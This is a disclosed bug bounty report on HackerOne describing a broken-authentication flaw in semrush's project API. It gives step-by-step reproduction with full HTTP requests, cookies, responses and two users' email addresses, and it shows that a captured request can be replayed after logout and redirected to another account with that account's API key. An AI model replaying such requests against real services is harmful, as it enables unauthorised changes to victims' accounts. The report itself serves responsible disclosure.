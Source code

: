 # Broken Authentication: A project addition request can be used multiple time for different users

## Report Details
- **Report ID**: 319480
- **URL**: https://hackerone.com/reports/319480
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-02-25T07:37:55.196Z
- **Disclosed**: 2018-03-13T14:30:20.478Z

## Reporter
- **Username**: walterhwhite
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: semrush

## Vulnerability Information
> NOTE! Thanks for submitting a report! Please replace *all* the [square] sections below with the pertinent details. Remember, the more detail you provide, the easier it is for us to verify and then potentially issue a bounty, so be sure to take your time filling out the report!

**Summary:** 
[**Broken Authentication**. A project addition request can be used multiple time for different users]

**Description:** 
[**Reusable requests**. Once a project addition request is captured it can be used any number of times even after logout not only for the corresponding user but for any user with API key.

## Steps To Reproduce:


  1. Create two users for semrush.com 

		i) cleganearya1@gmail.com
		ii)saidutt.mekala@gmail.com
  2. Now create a project for the user saidutt.mekala@gmail.com
  3. Following will be the request along with headers for project creation:

POST /projects/api/projects/?key=█████████ HTTP/1.1
Host: www.semrush.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://www.semrush.com/projects/?1519503450
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 86
Cookie: __cfduid=d586fa9b6fb028d425a8df52599e73d021519503413; PHPSESSID=██████████; ref_code=__default__; usertype=Free-User; marketing=%7B%22user_cmp%22%3A%22%22%2C%22user_label%22%3A%22%22%7D; localization=%7B%22locale%22%3A%22en%22%7D; db=us; n_userid=LuWkzFqRyDaG+2bqBEeyAg==; semrush_counter_cookie=deleted; visit_first=1519503421910; userdata=%7B%22tz%22%3A%22GMT+5.5%22%2C%22ol%22%3A%22en%22%7D; utz=Asia%2FKolkata; wp13557=UWYYADDDDDDIKXCIMMK-JBZZ-XLLX-BYCY-ILTWWCUBMTICDMUMLJIZI-AZAL-XLML-CJHX-WTBKZBVKZXWVDlLtkNlo_Jht; uvts=7B3Au3azsgVbSB6R; org.springframework.web.servlet.i18n.CookieLocaleResolver.LOCALE=en
DNT: 1
Connection: keep-alive

{"domain":"BB1236.com","name":"BB12367.com","url":"BB123678.com","acl":{"write":true}}

4. Now delete the added project.
5. Logout of the application and close the browser.
6. Resend the above request with different parameters like {"domain":"Walterwhite12.com","name":"Walterwhite12.com","url":"Walterwhite12.com","acl":{"write":true}}

Following is the response:  

HTTP/1.1 200 
Date: Sun, 25 Feb 2018 06:50:58 GMT
Content-Type: application/json;charset=UTF-8
Connection: keep-alive
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Strict-Transport-Security: max-age=31536000; includeSubdomains; preload
Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Server: cloudflare
CF-RAY: 3f28bbc28bbd17aa-SIN
Content-Length: 224

{"id":1266025,"domain":"walterwhite12.com","name":"Walterwhite12.com","email":"saidutt.mekala@gmail.com","tools":[],"permission":["OWNER"],"available":true,"favorite":false,"root_domain":"walterwhite12.com","times_shared":0}

7. Now we can also add the project to any user by using his API Key in the request. In the following request I have used the API Key of the user cleganearya1@gmail.com :

POST /projects/api/projects/?key=█████████ HTTP/1.1
Host: www.semrush.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://www.semrush.com/projects/?1519503450
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 104
Cookie: __cfduid=d586fa9b6fb028d425a8df52599e73d021519503413; PHPSESSID=██████; ref_code=__default__; usertype=Free-User; marketing=%7B%22user_cmp%22%3A%22%22%2C%22user_label%22%3A%22%22%7D; localization=%7B%22locale%22%3A%22en%22%7D; db=us; n_userid=LuWkzFqRyDaG+2bqBEeyAg==; semrush_counter_cookie=deleted; visit_first=1519503421910; userdata=%7B%22tz%22%3A%22GMT+5.5%22%2C%22ol%22%3A%22en%22%7D; utz=Asia%2FKolkata; wp13557=UWYYADDDDDDIKXCIMMK-JBZZ-XLLX-BYCY-ILTWWCUBMTICDMUMLJIZI-AZAL-XLML-CJHX-WTBKZBVKZXWVDlLtkNlo_Jht; uvts=7B3Au3azsgVbSB6R; org.springframework.web.servlet.i18n.CookieLocaleResolver.LOCALE=en
DNT: 1
Connection: keep-alive

{"domain":"Walterwhite12.com","name":"Walterwhite12.com","url":"Walterwhite12.com","acl":{"write":true}}

8. Following is the response for the above request:

HTTP/1.1 200 
Date: Sun, 25 Feb 2018 06:53:17 GMT
Content-Type: application/json;charset=UTF-8
Connection: keep-alive
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Strict-Transport-Security: max-age=31536000; includeSubdomains; preload
Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Server: cloudflare
CF-RAY: 3f28bf1e9f8917aa-SIN
Content-Length: 222

{"id":1266027,"domain":"walterwhite12.com","name":"Walterwhite12.com","email":"cleganearya1@gmail.com","tools":[],"permission":["OWNER"],"available":true,"favorite":false,"root_domain":"walterwhite12.com","times_shared":0}

## Impact

Once a project addition request is captured it can be used any number of times even after logout not only for the corresponding user but for any user with API key. Hence there is no need to login for the user to create a project because an attacker can directly add a project to victims account with his own malicious inputs/scrips and make them executable without victims awareness.

i) Reusable cookies for same user.
ii)There is no match verification between the API Key and cookie/sessionIds. There should be a server side validation which should validate the relation between an API Key provided and the sessionIds of the current user.

## Attachments
No attachments
